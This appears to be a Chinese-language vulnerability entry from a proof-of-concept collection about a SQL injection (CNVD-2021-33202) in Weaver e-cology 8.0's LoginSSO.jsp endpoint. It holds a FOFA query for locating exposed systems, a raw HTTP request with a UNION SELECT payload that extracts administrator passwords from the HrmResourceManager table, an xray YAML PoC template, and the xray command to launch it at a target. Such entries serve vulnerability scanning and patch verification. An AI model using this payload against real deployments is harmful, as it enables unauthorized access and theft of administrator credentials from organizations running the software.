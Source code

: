 # 泛微OA E-Cology LoginSSO.jsp（CNVD-2021-33202） SQL注入漏洞
## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等。 泛微e-cology存在SQL注入漏洞。攻击者可利用该漏洞获取敏感信息。

## 影响版本
```
泛微e-cology 8.0
```

## 网络测绘
```
app="泛微-协同办公OA"
```

## 环境搭建

-
## 漏洞复现

![image.png](https://cdn.jsdelivr.net/gh/klearcc/pic/img202309200026914.png)



## 数据包
```
GET /upgrade/detail.jsp/login/LoginSSO.jsp?id=1%20UNION%20SELECT%20password%20as%20id%20from%20HrmResourceManager HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0

```

## YAML代码
```
name: poc-yaml-ecology-loginsso-cnvd-2021-33202-sql
manual: true
transport: http
set:
  s1: randomInt(8000, 10000)
rules:
  r0:
    request:
      cache: true
      method: GET
      path: /upgrade/detail.jsp/login/LoginSSO.jsp?id=1%20UNION%20SELECT%20password%20as%20id%20from%20HrmResourceManager
    expression: response.status == 200 && response.body.bcontains(b'<BODY>\r\n<pre>\r\n<code>')&& response.body.bcontains(b'</code>\r\n</pre>\r\n</BODY>\r\n</HTML>')
expression: r0()
detail:
  author: klear
  links:
    - https://vuls.info/PeiQi/wiki/oa/%E6%B3%9B%E5%BE%AEOA/%E6%B3%9B%E5%BE%AEOA%20E-Cology%20LoginSSO.jsp%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%20CNVD-2021-33202/?h=loginsso





```

## xray调用

```
xray ws --poc poc-yaml-ecology-LoginSSO-CNVD-2021-33202-sql.yml --url xx.xx.xx.xx

```

![image.png](https://cdn.jsdelivr.net/gh/klearcc/pic/img202309200027404.png)


